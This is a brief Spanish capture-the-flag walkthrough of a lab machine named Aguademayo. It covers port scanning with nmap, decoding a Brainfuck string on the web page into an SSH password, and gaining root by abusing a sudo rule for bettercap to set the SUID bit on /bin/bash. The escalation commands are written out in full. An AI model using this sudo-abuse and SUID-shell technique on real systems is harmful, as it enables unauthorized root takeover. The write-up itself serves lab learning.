 ### Maquina Aguademayo

## Puerto abiertos 

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image.png)



## Entramos en la web 

y encontramos el siguiente codigo:


++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.


usamos la herramienta en linea para desecncriptar

https://www.dcode.fr/brainfuck-language

bebeaguaqueessano

## Intrusion

nos conectamos por ssh con las credenciales agua y bebeaguaqueessano

![alt text](image-1.png)

## Escalar privilegios

sudo -l

(root) NOPASSWD: /usr/bin/bettercap

ejecutamos bettercap
sudo /usr/bin/bettercap

! chmod +s /bin/bash

Salimos de bettercap, luego, hacemos un /bin/bash -p y ya seremos usuarios root !!!

![alt text](image-2.png)